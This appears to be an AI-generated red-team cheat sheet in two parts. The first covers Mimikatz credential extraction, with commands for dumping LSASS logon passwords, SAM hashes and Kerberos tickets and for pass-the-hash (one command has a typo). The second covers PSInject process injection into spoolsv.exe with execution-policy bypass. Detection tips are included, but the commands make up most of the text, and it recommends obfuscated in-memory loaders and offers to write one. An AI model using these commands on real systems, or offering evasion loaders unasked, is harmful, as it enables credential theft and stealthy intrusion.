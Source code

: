 
## Mimikatz Basics: Credential Extraction & Abuse

**Mimikatz** is a powerful post-exploitation tool used to extract plaintext credentials, hashes, PINs, and Kerberos tickets from memory. It is widely used in red team and adversary simulations, and frequently detected in blue team operations.

---

### Common Use Cases

* Dumping **cleartext passwords**
* Extracting **NTLM hashes**
* Abusing **Kerberos tickets** (pass-the-ticket, golden ticket, silver ticket)
* Performing **pass-the-hash** and **overpass-the-hash** attacks
* Dumping **LSASS memory** for offline analysis

---

### Example Commands

#### 1. Run Mimikatz as Admin

```cmd
mimikatz.exe
```

#### 2. Elevate and Load Modules

```mimikatz
privilege::debug
sekurlsa::logonpasswords
```

* `privilege::debug` enables debug privileges to interact with LSASS
* `sekurlsa::logonpasswords` dumps credentials currently stored in memory

#### 3. Dump NTLM Hashes

```mimikatz
lsadump::sam
```

#### 4. Extract Kerberos Tickets

```mimikatz
sekurlsa::tickets
```

#### 5. Pass-the-Hash Example

```mimikatz
tsekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<NTLM-HASH> /run:cmd.exe
```

---

### Detection Tips

* Monitor for access to **LSASS memory** (`Sysmon Event ID 10` — process access).
* Detect loading of **signed-but-malicious drivers** or **execution from uncommon paths**.
* Use **Event ID 4624/4625** (logon success/failure) to trace unusual authentications.

---

### Notes

* Requires **Administrator or SYSTEM** access.
* Most AV/EDRs flag Mimikatz immediately unless obfuscated or run in memory.
* Use tools like **Invoke-Mimikatz**, **SharpKatz**, or **PE injection loaders** for stealthy execution.

---

Let me know if you'd like an obfuscated PowerShell loader or integration into your red team playbook.




## Unmanaged PowerShell Injection with PSInject

To showcase **unmanaged PowerShell injection**, we can inject a PowerShell-like DLL into an existing Windows process, such as `spoolsv.exe`, which is part of the **Print Spooler service**.

This technique demonstrates how PowerShell code can be executed **in-memory** from a remote context without creating new processes or touching disk in a traditional way.

---

### Requirements

* **PowerSploit** (specifically `Invoke-PSInject.ps1`)
* Administrator privileges
* `spoolsv.exe` or any other long-running, quiet process

---

### Example: Injecting into `spoolsv.exe`

```powershell
powershell -ep bypass -Command ". .\Invoke-PSInject.ps1; Invoke-PSInject -ProcId [PID of spoolsv.exe] -PoshCode 'V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi'"
```

**Explanation:**

* `-ep bypass`: Allows execution of unsigned PowerShell scripts.
* `Invoke-PSInject`: Injects .NET-based PowerShell into a remote process.
* `-ProcId`: Target process ID of `spoolsv.exe` (get it via Task Manager or `Get-Process`).
* `-PoshCode`: Base64-encoded PowerShell payload.

**Decoded payload:**

```powershell
Write-Host "Hello, Guru99!"
```

---

### What Happens Internally

* The unmanaged process (`spoolsv.exe`) is injected with a minimal .NET runtime.
* After injection, it becomes **managed** by .NET, observable via tools like **Process Hacker**.
* The injected code runs within that process without spawning a new PowerShell instance.

---

### Detection Tips

* Use **Process Hacker** to observe:

  * Transition of the process from unmanaged to managed.
  * Loaded DLLs in the **Modules** tab.
* Monitor **Sysmon Event ID 7** for new DLL loads, especially non-standard PowerShell runtimes.
* Look for `.NET CLR` activity in typically unmanaged processes (like `spoolsv.exe`).

---

### Summary

* This method is stealthy: no new processes, minimal disk footprint.
* Ideal for demonstrating fileless execution in red team labs.
* Should be closely monitored in blue team environments due to its abuse potential.

Let me know if you want this extended with YARA/Sigma rules or added to your manual!
